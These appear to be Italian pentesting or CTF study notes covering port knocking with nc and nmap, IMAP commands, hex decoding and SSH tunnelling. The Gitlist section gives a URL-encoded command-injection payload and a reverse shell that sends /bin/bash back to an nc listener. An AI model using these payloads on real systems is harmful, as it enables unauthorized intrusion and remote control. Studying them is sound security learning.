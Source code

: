 metodo manuale:

- creo un file con la lista di porte

- `cat knock.txt | while read port; do nc -vz host_macchina $port; done`

  `nc` netcat

  -v verbose

  -z no interaction

si può fare anche con namp: `cat knock.txt | while read port; do nmap host_macchina -Pn --host-timeout 201 --max-retries 0 -p $port; done`

------

`telnet host_macchina porta_su_cui_connettersi`

si connette al servizio sulla porta specificata

kicka l'utente dopo un certo periodo di inattività

---

**imap** servizio mail

`a login email_utente password`

`. LIST "" "*"` visualizza la struttura della casella di posta

`a SELECT nome_directory`  visualizza il contenuto della dir

`. FETCH id_mail ALL` ritorna l'intera mail con id specificato `. FETCH id_mail BODY[]` molto meglio, formattato

---

`echo stringa_esadecimale | xxd -r -p`

converte stringa esadecimale

---

**Gitlist**

`searchsploit gitlist` cerchiamo exploit per il servizio

`http://route/%22%22%60 comando bash %60`  la vulnerabilità è `""'`, `%22%22%60` si traduce in questo

`nc -nvlp 5555` netcat rimane in ascolto (-l) sulla porta (-p) 555 senza fare traduzione dns (-n)

`http://route/%22%22%60 ip_locale 5555-e /bin/bash %60` restituisce la connessione indietro

---

`ssh utente@host_macchina -L porta_locale:host_macchina_2:porta_macchina_2`

crea un tunnel ssh dalla porta locale su macchina_2

---
